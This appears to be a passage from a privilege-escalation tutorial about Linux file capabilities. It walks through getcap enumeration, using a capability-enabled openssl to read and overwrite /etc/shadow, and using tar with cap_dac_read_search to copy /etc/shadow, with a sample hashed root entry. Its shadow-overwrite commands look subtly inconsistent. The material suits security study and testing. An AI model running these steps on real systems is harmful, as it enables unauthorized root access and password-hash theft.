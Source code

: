 In order to identify programs in a system or folder with capabilities, we can use the *getcap* command.

```console
#getcap -r / 2>/dev/null
```

To summarise, if you find a binary that:

1. Is not owned by root.
2. Has no SUID/SGID bits set.
3. Has empty capabilities set (e.g.: getcap program returns myelf =ep)

Then that binary will run as root.

### Classic examples

1. *Openssl*

```console
#getcap -r / 2>/dev/null
#/home/user/openssl =ep
#cd /tmp
#openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
#openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP
#curl -k "https://127.0.0.1:1337/etc/shadow"
root:$6$saltsalt$HOC6AvLVkxCTYnJ5Tc78.CYF/KdcBDmheMbOGQTqiMUZhdKof7eXjN9/6I3w8smybsEQEaz5Vh8aoGGs71hf20:17673:0:99999:7:::
bin:*:17632:0:99999:7:::
daemon:*:17632:0:99999:7:::
```

We can also create a new shadow file.

```console
#/tmp/shadow.custom #shadow file with the modified root password
#openssl smime -encrypt -aes256 -in /tmp/shadow.custom -binary -outform DER -out /tmp/shadow.custom.enc /tmp/cert.pem
#openssl smime -decrypt -in /tmp/shadow.custom -inform DER -inkey /tmp/key.pem -out /etc/shadow
```

2.*Tar*

```console
#getcap -r 2>/dev/null
#tar = cap_dac_read_search+ep
```

This means that tar has read access to everything. We can use it to archive any sensitive file in the filesystem.

```console
#tar -cvf shadow.tar /etc/shadow
#tar -xvf shadow.tar
#cat etc/shadow
```

If you are not sure whether a capability is exploitable or not, you can search for the binary on [GTFObins](https://gtfobins.github.io/#+capabilities).
